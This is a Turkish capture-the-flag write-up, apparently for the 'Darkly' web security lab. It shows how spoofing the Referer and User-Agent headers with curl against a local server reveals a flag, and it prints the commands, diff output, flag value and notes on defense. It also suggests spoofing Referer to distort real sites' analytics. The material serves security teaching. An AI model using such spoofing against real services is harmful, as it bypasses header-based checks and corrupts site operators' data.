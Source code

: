 # Header Manipulation

Bu tür güvenlik sorunlarını önlemek için, sunucu isteğin başlıklarına dayanarak yüksek riskli doğrulama yapmamalıdır. Özellikle kimlik doğrulama veya hassas işlemler için HTTP başlıkları güvenilir bir doğrulama mekanizması değildir, çünkü bunlar kolayca değiştirilebilir.

Analitiğinizi korumak için kullandığınız hizmete bağlı olarak:
- Sadece insan tarafından okunabilir yönlendiricilere izin veren `regex` oluşturabilirsiniz
- Bilinen `Hayalet Trafik` yönlendiricilerini engelleyen bir kara liste oluşturabilirsiniz

Bu açık, sunucu tarafında HTTP başlıklarına aşırı güvenmenin tehlikelerini göstermektedir. İstek başlıkları her zaman istemci tarafından manipüle edilebilir ve güvenlik önlemleri olarak kullanılmamalıdır.

## HTTP Header Manipulation Ataklarına Kısa Bakış

HTTP Header Manipulation saldırıları, bir saldırganın HTTP istek veya yanıt başlıklarını değiştirerek çeşitli güvenlik sorunlarına yol açabildiği saldırı türleridir:

1. **Request Header Manipulation**: İstek başlıklarının değiştirilmesi
   - `Referer` başlığının değiştirilmesi (bu örnekteki gibi)
   - `User-Agent` başlığının değiştirilmesi (bu örnekteki gibi)
   - `X-Forwarded-For` başlığının IP adresi kısıtlamalarını atlatmak için değiştirilmesi
   - `Cookie` başlıklarının saldırıları gerçekleştirmek için değiştirilmesi

2. **Response Header Manipulation**: Yanıt başlıklarının değiştirilmesi
   - `X-Frame-Options`'ın bozulması ile clickjacking saldırıları
   - `Content-Security-Policy` başlığının atlatılması
   - `Access-Control-Allow-Origin` ile CORS politikalarının ihlali

3. **En Yaygın Saldırı Vektörleri**:
   - Sahte oturum bilgileri ile yetkilendirme atlatma
   - Cache zehirleme (Cache Poisoning)
   - Yönlendirme saldırıları (HTTP-Header-Based Redirection)
   - İstemci kimliğini ve kaynağını sahteleştirme

Bu tür saldırılardan korunmak için, sunucu tarafında başlıklara güvenmemeli, kullanıcı girdilerini her zaman doğrulamalı ve güvenlik kararlarını başlık değerlerine dayanarak almamalıyız.

## Güvenlik Açığını Nasıl Bulduk

`http://127.0.0.1:8080/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f` sayfasını incelediğimizde, şüpheli HTML yorumları bulduk:

```html
<!--
You must come from : "https://www.nsa.gov/".
-->
<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

İlk yorum, belirli bir URL'den geldiğimizi göstermemiz gerektiğini söylüyor. Bunu denemeye karar verdik.

## Özel curl Referrer Başlığı

İsteklerimizi gerçekleştirmek için `curl` kullandık. `curl --header "Header_foo: bar"` komutuyla özel başlık anahtar-değer çiftleri tanımlayabiliriz.

Önce `Referer` başlığını `curl --header "Referer: https://www.nsa.gov/" url` komutuyla denedik:

```bash
diff <(curl --silent "http://127.0.0.1:8080/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f") <(curl --silent --header "Referer: https://www.nsa.gov/" "http://127.0.0.1:8080/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f")
37c37
< <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> FIRST STEP DONE<audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

Gördüğümüz gibi, sunucu farklı bir sayfa içeriği gönderdi: `FIRST STEP DONE`

İkinci şüpheli yorum bir tarayıcıdan bahsediyor, bu yüzden `User-Agent` başlığıyla oynamayı denedik.

## Özel curl User-Agent Başlığı

Önceki komutumuza user agent için özel bir başlık ekledik: `curl --header "User-Agent: ft_bornToSec"`.

```bash
diff <(curl --silent "http://127.0.0.1:8080/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f") <(curl --silent --header "Referer: https://www.nsa.gov/" --header "User-Agent: ft_bornToSec" "http://127.0.0.1:8080/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f")
37c37
< <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> <center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

İşte sonuç! Döndürülen sayfada flag'i bulduk!

## Bu Açığı Kendi Sistemimizde Çalıştırma

Aşağıdaki komutla açığı sömürebilirsiniz:

```bash
# Sadece Referer başlığı ile deneme
curl --silent --header "Referer: https://www.nsa.gov/" "http://127.0.0.1:8080/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f"

# Hem Referer hem User-Agent başlığı ile (flag'i gösterir)
curl --silent --header "Referer: https://www.nsa.gov/" --header "User-Agent: ft_bornToSec" "http://127.0.0.1:8080/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f"
```

## Güvenlik Açığını Nasıl Kullanılır

Eğer sunucu, gelen isteğin başlıklarına göre doğrulama yapıyorsa ve bu doğrulama önemli işlemlere (işlem veya kimlik doğrulama gibi) yol açıyorsa, bu oldukça riskli olabilir.

Daha gerçekçi bir saldırı örneği, bir web sitesine sahte bir `Referer` başlığıyla (curl kullanarak) istekler göndermektir. Bu başlık, web siteleri tarafından kullanıcıların nereden geldiğini izlemek için kullanılır. Bir saldırgan, istatistikleri bozabilir ve bu da iş kararlarını yanlış yönlendirebilir.